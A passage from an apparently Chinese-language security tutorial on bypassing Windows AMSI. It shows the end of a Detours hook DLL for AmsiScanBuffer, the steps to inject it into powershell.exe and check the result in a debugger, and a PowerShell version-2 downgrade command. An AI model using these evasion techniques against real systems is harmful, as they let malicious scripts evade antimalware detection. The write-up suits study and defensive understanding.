DetourTransactionCommit(); } else if (dwReason == DLL_PROCESS_DETACH) { DetourTransactionBegin(); DetourUpdateThread(GetCurrentThread()); DetourDetach(&(PVOID&)OriginalAmsiScanBuffer, _AmsiScanBuffer); DetourTransactionCommit(); FreeConsole(); } return TRUE; }
使用注射器将我们的dll注入到powershell.exe的进程中

再次执行敏感字符串，发现已经成功bypass

使用调试器查看进程加载的模块，可以看到bypassamsidll.dll已经注入到powershell的进程中了。

查看AmsiScanBuffer的入口地址可以看到开始的命令已经被jmp 命令覆盖。

继续运行，等到程序重新跳转回AmsiScanBuffer时，rdx（第二个参数）的内容已经变成了“SafeString”，AMSI并没有接收到真正的字符串，因此AMSI也通过这种方法绕过去了。

降低powershell版本 将powershell版本降到2.0，就能够规避amsi，因为在低版本的powershell中还没有加入amsi。使用下面的命令就可以切换powershell的版本为2.0。
1 powershell.exe -version 2
可以看到，切换到2.0版本后便绕过了AMSI

PowerShell 2.0 集成在 Windows 7 和 Windows 服务器 2008 R2 以上的所有版本中，但是由于PowerShell 2.0 运行所需的 .NET Framework版本未必已经安装，所以可能会出现如下提示。
参考 https://xz.aliyun.com/t/10437#toc-7
https://idiotc4t.com/defense-evasion/memory-pacth-bypass-amsi
https://x64sec.sh/understanding-and-bypassing-amsi/